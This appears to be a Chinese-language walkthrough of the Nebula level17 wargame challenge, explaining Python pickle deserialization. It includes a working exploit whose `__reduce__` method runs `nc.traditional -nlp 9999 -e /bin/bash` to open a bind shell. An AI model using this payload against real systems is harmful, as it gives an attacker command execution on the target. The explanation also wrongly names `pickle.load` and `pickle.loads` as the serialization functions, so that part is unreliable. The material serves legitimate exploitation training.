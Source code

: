 ``` python
      clnt.send("Accepted connection from %s:%d" % (addr[0], addr[1]))
      server(clnt)
      exit(1)
```

### python的pickle库反序列化漏洞

此题是python的pickle序列化库的特性，它可能会导致反序列化漏洞。

pickle库能序列化大多数对象，包括用户自定义的类。它的序列化函数有两个：

- `pickle.load(obj, file, protocol=None, *, fix_imports=True)`：该方法将obj对象序列化为字节（bytes）输出到file文件中。
- `pickle.loads(obj, protocol=None, *, fix_imports=True)`：该方法将obj对象序列化并返回一个bytes对象。

反序列化函数对应也有两个：

- `pickle.load(file, *, fix_imports=True, encoding="ASCII", errors="strict")`：从一个对象文件中读取序列化数据，将其反序列化之后返回一个对象。 
- `pickle.loads(bytes_object, *, fix_imports=True, encoding="ASCII", errors="strict")`：将一个bytes对象反序列化并返回一个对象。

对于一个类来说，其`__reduce__()`方法在反序列化时是会被执行的，这个方法返回一个字符串或者元组来描述当反序列化的时候该如何重构。

### payload

所以我们就可以利用`__reduce__()`方法来get shell。编写python脚本：

``` python
#!/usr/bin/python
#coding=utf-8

import pickle
import os

class poc(object):
	def __reduce__(self):
		s = "nc.traditional -nlp 9999 -e /bin/bash"
		#s = 'echo abcdefg'
		return os.system, (s,)

e = poc()
s = pickle.dumps(e)
print s
```

运行然后连接nc端口：

![Level17](Exploit-exercises-Nebula-remaining/level17_1.png)

---